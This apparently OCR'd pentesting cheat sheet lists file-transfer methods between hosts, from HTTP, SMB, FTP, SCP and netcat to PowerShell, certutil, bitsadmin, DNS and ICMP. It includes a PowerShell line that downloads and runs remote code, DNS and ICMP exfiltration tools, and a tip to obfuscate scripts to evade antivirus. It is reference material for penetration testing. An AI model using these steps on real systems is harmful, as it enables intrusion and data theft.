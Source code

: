 ### 1. HTTP/HTTPS

```bash
# Python HTTP Server:
python3 -m http.server 80 # Python 3
python -m SimpleHTTPServer 80 # Python 2
```

```bash
# Download with wget/curl:
wget http://<IP>/file
curl -O http://<IP>/file
```

```bash
# PHP Server:
php -S 0.0.0.0:80
```

### 2. SMB (Windows)

```bash
# Impacket SMB Server:
impacket-smbserver share $(pwd) -smb2support -username user -password pass
```

```bash
# Connect from Windows:
net use \\\\<IP>\\share /user:user pass
copy \\\\<IP>\\share\\file .
```

### 3. FTP

```bash
# Python FTP Server:
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w
```

```bash
# Connect with ftp:
ftp <IP>
get file
```

### 4. SCP (SSH)

```bash
# Upload/Download:
scp file.txt user@<IP>:/path # Upload
scp user@<IP>:/path/file.txt . # Download
```

### 5. Netcat (Unencrypted)

```bash
# Receiver (Listener):
nc -lvnp 4444 > file
```

```bash
# Sender:
nc <IP> 4444 < file
```

### 6. PowerShell (Windows)

```bash
# Download File:
Invoke-WebRequest -Uri http://<IP>/file -OutFile file
(New-Object Net.WebClient).DownloadFile("http://<IP>/file", "file")

# Base64 Encode/Decode:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("file")) > file.b64
[IO.File]::WriteAllBytes("file", [Convert]::FromBase64String((Get-Content file.b64)))

# Basic download string
	iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")
```

### 7. TFTP (UDP)

```bash
# Start TFTP Server:
atftpd --daemon --port 69 /tftp
```

```bash
# Download File:
tftp -i <IP> GET file
```

### 8. WebDav (HTTP)

```bash
# Python WebDav Server:
wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```bash
# Mount in Windows:
net use * http://<IP>/webdav
```

### 9. DNS Exfiltration (Slow)

```bash
# Using dnscat2:
dnscat2 --dns server=<IP>,[domain=example.com](<http://domain=example.com/>)
```

### 10. Magic Windows Tricks

```bash
# Certutil:
certutil -urlcache -split -f http://<IP>/file
```

```bash
# Bitsadmin:
bitsadmin /transfer job /download /priority normal http://<IP>/file C:\\file
```

### 11. RDP Clipboard

```bash
Copy-paste files via RDP (enable clipboard sharing).
```

### 12. ICMP (Ping) Exfil

```bash
# icmp-exfil (Tool):
icmp-exfil -s <IP> -f file
```

### Notes:

- Encryption: Prefer SCP/HTTPS/SMB3 over unencrypted methods (FTP, HTTP, TFTP).
- Firewalls: Check allowed ports (80, 443, 445, 21, 22 are common).
- AV Evasion: Obfuscate scripts (e.g., base64-encoded PowerShell).

Source: [https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)